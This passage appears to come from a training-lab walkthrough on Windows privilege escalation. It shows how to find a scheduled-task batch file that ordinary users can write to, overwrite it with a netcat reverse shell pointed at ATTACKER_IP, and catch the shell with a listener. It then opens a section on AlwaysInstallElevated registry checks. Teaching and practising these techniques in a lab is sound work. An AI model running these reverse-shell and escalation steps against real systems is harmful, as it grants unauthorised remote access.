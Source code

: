 ```bash
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, **nc64.exe** can be found on **C:\tools**. Let's change the bat file to spawn a reverse shell:

Command Prompt
`C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
`

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

`nc -lvp 4444
`

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:

Command Prompt
`C:\> schtasks /run /tn vulntask`

And you will receive the reverse shell with taskusr1 privileges as expected:

    user@attackerpc$ nc -lvp 4444
    Listening on 0.0.0.0 4444
    Connection received on 10.10.175.90 50649
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    wprivesc1\taskusr1

Go to taskusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

## b. AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

Note: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

Command Prompt
`C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
`C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
